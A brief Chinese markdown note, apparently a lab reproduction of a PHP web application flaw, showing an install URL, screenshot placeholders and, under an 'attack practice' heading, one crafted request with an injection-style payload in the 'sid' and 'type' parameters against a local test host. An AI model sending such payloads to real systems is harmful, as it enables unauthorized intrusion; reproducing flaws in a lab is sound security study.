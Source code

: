 
# 实战
在浏览器输入
```
http://IP:PORT/install.php
```
## 安装

![image]({path}/1.png)

![image]({path}/2.png)





## 攻击实战

在浏览器输入
```
http://192.168.1.170:7777/index.php?s=hits-show&sid=md5(1)%23&type=md5(1)
```




![image]({path}/3.png)

